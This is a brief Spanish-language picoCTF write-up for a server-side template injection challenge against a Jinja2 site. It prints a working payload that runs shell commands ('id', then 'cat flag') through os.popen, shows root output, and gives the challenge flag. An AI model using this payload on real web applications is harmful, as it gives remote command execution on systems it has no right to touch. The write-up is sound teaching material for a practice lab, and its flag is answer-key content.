 ### Descripción
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:57741/)!

Hints:
1. Server Side Template Injection

### Solución
Entramos a la página y en https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ encontramos un script que nos ayudará a obtener la flag:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

Al introducirlo nos muestra:
```
# uid=0(root) gid=0(root) groups=0(root)
```

Configuramos el script para mandar cat flag en lugar de id:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

Y ahora si nos muestra la flag:
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}

### Notas adicionales

### Referencias
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
